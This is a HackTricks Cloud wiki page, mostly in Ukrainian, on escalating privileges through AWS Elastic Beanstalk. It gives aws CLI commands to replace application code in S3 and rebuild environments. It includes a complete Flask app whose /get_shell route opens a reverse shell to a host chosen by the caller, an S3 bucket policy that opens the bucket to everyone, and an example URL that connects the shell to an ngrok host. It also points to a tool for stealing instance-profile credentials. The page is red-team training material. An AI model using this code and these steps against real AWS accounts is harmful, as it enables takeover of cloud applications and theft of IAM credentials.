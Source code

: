 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Більше **інформації про Elastic Beanstalk** в:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Щоб виконати чутливі дії в Beanstalk, вам потрібно мати **багато чутливих дозволів у багатьох різних сервісах**. Ви можете перевірити, наприклад, дозволи, надані **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, дозволи на запис в S3 та багато інших

З **дозволами на запис у S3 бакет**, що містить **код** середовища, та дозволами на **перебудову** програми (потрібно `elasticbeanstalk:RebuildEnvironment` і кілька інших, пов'язаних з `S3`, `EC2` та `Cloudformation`), ви можете **модифікувати** **код**, **перебудувати** додаток, і наступного разу, коли ви отримуєте доступ до додатку, він **виконає ваш новий код**, що дозволяє зловмиснику скомпрометувати додаток та облікові дані IAM ролі. 

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, і більше...

Зазначені, а також кілька **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** та **`elasticloadbalancing`** дозволів є необхідними для створення базового сценарію Elastic Beanstalk з нуля.

* Створити додаток AWS Elastic Beanstalk:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Створіть середовище AWS Elastic Beanstalk ([**підтримувані платформи**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Якщо середовище вже створене і ви **не хочете створювати нове**, ви можете просто **оновити** існуюче.

* Упакуйте код вашого додатку та залежності в ZIP-файл:
```python
zip -r MyApp.zip .
```
* Завантажте ZIP-файл до S3 бакету:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Створіть версію програми AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Розгорніть версію програми у вашому середовищі AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

По-перше, вам потрібно створити **легітимне середовище Beanstalk** з **кодом**, який ви хочете запустити у **жертви**, дотримуючись **попередніх кроків**. Потенційно це може бути простий **zip**, що містить ці **2 файли**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Якщо у вас **запущене власне середовище Beanstalk** з вашим rev shell, настав час **мігрувати** його до **середовища жертви**. Для цього вам потрібно **оновити політику бакету** вашого S3 бакету Beanstalk, щоб **жертва могла отримати доступ** до нього (Зверніть увагу, що це **відкриє** бакет для **ВСІХ**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
